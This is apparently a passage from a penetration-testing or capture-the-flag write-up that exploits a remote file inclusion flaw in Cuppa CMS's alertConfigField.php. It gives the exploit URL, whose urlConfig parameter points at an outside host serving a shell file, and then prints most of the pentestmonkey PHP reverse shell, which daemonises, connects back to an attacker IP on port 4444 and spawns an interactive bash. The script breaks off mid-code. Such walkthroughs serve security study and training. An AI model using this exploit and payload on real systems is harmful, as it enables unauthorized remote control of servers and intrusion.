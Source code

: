 So I tried another FLI listed in here:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?`

For this to work, I first need to generate a reverse shell:

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'your_ip';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
```